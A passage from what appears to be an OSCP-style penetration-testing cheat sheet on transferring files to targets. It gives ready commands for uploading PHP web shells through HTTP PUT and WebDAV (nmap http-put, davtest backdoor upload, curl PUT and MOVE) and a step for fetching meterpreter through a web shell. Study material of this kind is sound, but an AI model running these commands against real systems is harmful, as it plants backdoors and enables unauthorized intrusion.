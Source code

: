 ruby -rwebrick -e "WEBrick::HTTPServer.new
(:Port => 80, :DocumentRoot => Dir.pwd).start"

    - Run a basic PHP http server

php -S $ip:80

- Creating a wget VB Script on Windows:

[*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

- Mounting File Shares
    - Mount NFS share to /mnt/nfs

mount $ip:/vol/share /mnt/nfs

- HTTP Put

nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='68'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2087' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#uploading-files)Uploading Files

    - SCP

scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

scp localfile username@$ip:~/Folder/

    - Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

`davtest -move -sendbd auto -url http://$ip`
https://github.com/cldrn/davtest
You can also upload a file using the PUT method with the curl command:
`curl -T 'leetshellz.txt' 'http://$ip'`

And rename it to an executable file using the MOVE method with the curl command:

`curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    - Upload shell using limited php shell cmd

use the webshell to download and execute the meterpreter
